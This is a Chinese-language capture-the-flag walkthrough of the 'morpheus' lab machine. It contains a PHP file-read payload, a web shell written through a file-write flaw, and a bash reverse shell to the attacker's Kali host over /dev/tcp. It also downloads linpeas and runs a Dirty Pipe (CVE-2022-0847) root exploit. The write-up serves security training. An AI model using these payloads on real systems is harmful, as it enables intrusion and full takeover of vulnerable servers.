# 一、侦测
## 1.1 端口扫描


## 1.2 80 端口







## 1.3 81 端口



# 二、渗透
## 2.1 简单挖掘
针对`http://192.168.203.142/graffiti.php`，这里存在文件读取漏洞


burp suite抓包发现，存在参数`file=graffiti.txt`,且返回的数据包中显示了`graffiti.txt`文件的信息。


用 php 伪协议读取`graffiti.php`文件的源码信息

```
php://filter/read=convert.base64-encode/resource=graffiti.php
```
获得加密数据，经过 base64 解码，获得源码信息`graffiti.php`
```PHP
<h1>
<center>
Nebuchadnezzar Graffiti Wall

</center>
</h1>
<p>
<?php

$file="graffiti.txt"
if($_SERVER['REQUEST_METHOD'] == 'POST') {
    if (isset($_POST['file'])) {
       $file=$_POST['file'];
    }
    if (isset($_POST['message'])) {
        $handle = fopen($file, 'a+') or die('Cannot open file: ' . $file);
        fwrite($handle, $_POST['message']);
        fwrite($handle, "\n");
        fclose($file); 
    }
}

// Display file
$handle = fopen($file,"r");
while (!feof($handle)) {
  echo fgets($handle);
  echo "<br>\n";
}
fclose($handle);
?>
<p>
Enter message: 
<p>
<form method="post">
<label>Message</label><div><input type="text" name="message"></div>
<input type="hidden" name="file" value="graffiti.txt">
<div><button type="submit">Post</button></div>
</form>
```

`$file`参数默认为`graffiti.txt`，但当传递`$file`参数时会覆盖掉原来的默认值，因此可以写入后门文件，尝试获取 shell

## 2.2 反弹 shell（方法1）

burp suite中构造payload
```bash
message=<?php%20eval($_POST['x']);?>&file=getshell.php
```



用蚁剑连接，不过这里蚁剑要设置下代理（和梯子的端口一样）

尚未结束（用蚁剑反弹shell到kali...）

## 2.3 反弹 shell（方法2 我最爱）
kali 中开启`nc -lvvp 7777`
burp suite中构造payload
```BASH
message=<?php system("bash -c 'bash -i >%26 /dev/tcp/你的Kali_IP/4444 0>%261'"); ?>&file=reverse.php
```

浏览器访问`http://192.168.203.142/reverse.php`


接着升级shell[点击跳转升级shell指南](/docs/cybersecurity/kali_linux基操/#update-shell)


根目录中找到`FLAG.txt`文件，提示在80端口的web服务器的`.cypher-neo.png`文件中查找线索。


## 2.4 将文件上传回 kali 分析

python3 建立临时服务器，[点击跳转用python开临时web服务器](/docs/cybersecurity/kali_linux基操/#http.server)


`steghide`工具查看，`.cypher-neo.png`无图片隐写术，`trinity.jpeg`有隐写术，尝试爆破


`stegseek`工具爆破失败



`binwalk`工具进行提取图片内容，得到`8A`、`8A.zlib`，其中`8A`为空文件，二`8A.zlib`包含内容
```ZSH
zlib-flate -uncompress <8A.zlib> 8A.txt
```
但完全没头绪

## 2.5 脚本提权
```
# linpeas.sh 查找漏洞的脚本
https://pan.baidu.com/s/1FUd0ohk7rkl-cJR18jkQ0w

# 密码：upfn
```

```ZSH
# KALI
python3 -m http.server 8080

# 靶机
wget http://192.168.203.129:8080/linpeas.sh

# 赋予权限
chmod +x linpeas.sh

./linpeas.sh
```


找到可利用的漏洞
```ZSH
git clone https://github.com/imfiver/CVE-2022-0847.git
cd CVE-2022-0847
chmod +x Dirty-Pipe.sh
./Dirty-Pipe.sh
```


成功获得root权限


获得`FLAG.txt`

# 三、思考
**问题一：**提权的思路是什么？
由于Linux系统版本较老，有内核漏洞*CVE-2022-0847*
```zsh
# 内核版本
root@morpheus:~# uname -a
Linux morpheus 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64 GNU/Linux
```
  - `Debian 5.10.70-1(2021-09-30)`：`Debian 11 (Bullseye)`或者是基于`Debian 11`的衍生系统
  - `5.10.0-9-amd64`：发布于2021年9月30日的Linux内核版本
  - `x86_64`意味着是一个64位的系统，运行在intel或amd的64位处理器架构
  - `morpheus`是靶机名字
